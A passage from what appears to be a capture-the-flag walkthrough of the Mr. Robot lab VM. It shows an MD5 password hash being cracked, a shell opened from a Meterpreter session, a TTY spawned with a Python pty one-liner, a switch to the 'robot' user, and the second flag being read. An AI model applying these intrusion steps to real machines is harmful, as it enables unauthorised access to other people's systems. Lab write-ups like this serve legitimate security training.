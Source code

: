 Alright, it seems that we have an [MD5 Hash](https://en.wikipedia.org/wiki/MD5) with the username __robot__. Let's go to [HashKiller](https://hashkiller.co.uk/md5-decrypter.aspx) online and see if it can crack the MD5 hash for us.

You can use [HashCat](https://hashcat.net/hashcat/) if you wanted to, but I figured that this was going to be faster.

```
c3fcd3d76192e4007dfb496cca67e13b MD5 : abcdefghijklmnopqrstuvwxyz
```

Geez, what a shitty password! Who cares, it was easy for us to crack!

Since we have a password, and a [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the host, let's see if we can drop into a shell and login as the user __robot__.

```console
meterpreter > shell
Process 2094 created.
Channel 1 created.
```

Okay, we got shell! Now we want to be able to login to __robot__. So what we need to do is establish a [TTY Shell](http://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con). We can do so by typing the following line:

```console
python -c 'import pty; pty.spawn("/bin/sh")'
```

Here is a good resource where you can read more about [Spawning a TTY Shell](http://netsec.ws/?p=337). 

Once in, we can login as __robot__ and get the second flag!

### Key 2:

```console
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -a
ls -a
.  ..  key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

Okay, go do a victory lap around the house! You deserve it! Though... we're still not done. Still got 1 more key to find!

Since we exploited the host, and got in - our next step is to carry out [Post-Explotation](http://www.pentest-standard.org/index.php/Post_Exploitation) and further Enumeration on the internal side.

What I like doing is running an nmap scan if possible to enumerate open ports, and internal machines - so let's see if we can enumerate ports on the localhost.
